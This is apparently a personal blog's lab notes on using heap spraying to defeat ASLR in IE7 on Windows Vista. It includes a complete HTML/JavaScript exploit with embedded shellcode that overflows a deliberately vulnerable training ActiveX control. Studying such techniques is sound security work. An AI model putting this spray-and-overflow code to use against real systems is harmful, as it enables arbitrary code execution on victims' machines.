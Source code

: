 ```yaml
---
title: Exploit learning notes 019 Using HeapSpray Attack ASLR
description: Use Heap Spray technique to attack ASLR and locate shellcode
date: 2020-11-28 12:38:00+0800
categories:
    - Exploit
tags:
    - Windows
    - HeapSpray
---
```


Source: [Moeomu's blog](/posts/exploit-learning-notes-019-using-heapspray-attack-aslr/)

## Principle

By requesting a large amount of memory, occupying the 0x0C0C0C0C locations in memory, and placing 0x90 and shellcode in these memories, and finally controlling the program to go to 0x0C0C0C0C for execution. As long as the luck is not so bad that 0x0C0C0C0C0C happens to be located somewhere in the shellcode, the shellcode will be executed successfully

## Experiment

### Preparation

> Environment: System: Windows Vista SP0, DEP Status: Default, Browser: IE7

- Still use the previously used [Vulner_AX.dll](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX.ocx) as the target of the attack
- UUID of `CVulnerAXCtrl's class information` in `VulnerAX.idl`: `ACA3927C-6BD1-4B4E-8697-72481279AAEC`

### Idea

- We use the Heap spray technique to request 200 1MB memory blocks in memory to counteract the randomization process of ASLR
- Each memory block contains 0x90 padding and shellcode
- After Heap spray we occupy the memory near `0x0C0C0C0C`, we just control the program to go to `0x0C0C0C0C` for execution, and after several 0x90 slides we can reach the shellcode range and execute
- There is a typical overflow vulnerability in the test function, where the function return address can be overwritten by copying a very long string
- We will overwrite the function return address as `0x0C0C0C0C`, after the function execution returns to execution will be transferred to the memory space we apply

### Code

```html
<html>
<body>
<script>
    var nops = unescape("%u9090%u9090");
    var shellcode = "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";
    while (nops.length < 0x100000)
        nops += nops;
    nops = nops.substring(0, 0x100000/2-32/2-4/2-2/2-shellcode.length);
    nops = nops + shellcode;
    var memory = new Array();
    for (var i = 0; i < 200; i++)
        memory[i] += nops;
</script>
<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test"> </object>
<script>
    var s = "\u9090";
    while (s.length < 54)
    {
        s += "\u9090";
    }
    s += "\u0C0C\u0C0C";
    test.test(s);
</script>
</body>
</html>
```

### Result

- Successful attack on ASLR, as shown in the figure

![pic1](./p1.png)  
![pic2](./p2.jpg)  
![pic3](./p3.png)
